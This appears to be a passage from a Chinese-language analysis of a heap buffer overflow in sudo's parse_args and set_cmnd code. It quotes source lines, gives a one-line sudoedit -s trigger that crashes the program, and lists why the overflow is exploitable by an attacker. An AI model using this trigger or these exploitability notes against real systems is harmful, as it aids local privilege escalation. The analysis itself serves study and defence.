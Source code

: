 **答案**：不行。只要设置了`MODE_EDIT `（-e, 361行）/`MODE_CHECK`（-l, 423+519行），`parse_args()`就会从`valid_flags`移除`MODE_SHELL`（363+424行），如果此时还设置了`MODE_SHELL`就会报错（532-533行）。

```c
358                 case 'e': 
... 
361                     mode = MODE_EDIT; 
362                     sudo_settings[ARG_SUDOEDIT].value = "true"; 
363                     valid_flags = MODE_NONINTERACTIVE; 
364                     break; 
... 
416                 case 'l': 
... 
423                     mode = MODE_LIST; 
424                     valid_flags = MODE_NONINTERACTIVE|MODE_LONG_LIST; 
425                     break; 
... 
518     if (argc > 0 && mode == MODE_LIST) 
519         mode = MODE_CHECK; 
... 
532     if ((flags & valid_flags) != flags) 
533         usage(1); 
```

**漏洞**：如果执行`sudoedit`命令（而非`sudo`），则`parse_args()`会自动设置`MODE_EDIT`（270行）且不会重置`valid_flags`，这样`MODE_SHELL`就还在`valid_flags`中（127+249行），不会报错。

```c
127 #define DEFAULT_VALID_FLAGS     (MODE_BACKGROUND|MODE_PRESERVE_ENV|MODE_RESET_HOME|MODE_LOGIN_SHELL|MODE_NONINTERACTIVE|MODE_SHELL) 
... 
249     int valid_flags = DEFAULT_VALID_FLAGS; 
... 
267     proglen = strlen(progname); 
268     if (proglen > 4 && strcmp(progname + proglen - 4, "edit") == 0) { 
269         progname = "sudoedit"; 
270         mode = MODE_EDIT; 
271         sudo_settings[ARG_SUDOEDIT].value = "true"; 
272     } 
```

**结果**：只要执行`sudoedit -s \`，就能同时设置`MODE_EDIT`和`MODE_SHELL`，但不设置`MODE_RUN`。跳过`parse_args()`中的换码代码，直接执行漏洞代码`set_cmnd()`，溢出`user_args`堆缓冲区。

```bash
$ sudoedit -s '\' `perl -e 'print "A" x 65536'` 
malloc(): corrupted top size
Aborted (core dumped)
```

从攻击者角度来看，该缓冲区溢出可利用的原因如下：

- 1. `user_args`堆缓冲区的size可控（852-854行，size就是命令行参数合并后的长度）；
- 2. 能分别控制size和溢出的内容（第一段命令行参数后紧跟第二段命令行参数，第二段命令行参数不包含在size中）；
- 3. 可以写null字节到`user_args`（每个以单反斜杠结尾的命令行参数或环境变量，都能往`user_args`写1个null字节，见866-868行）。
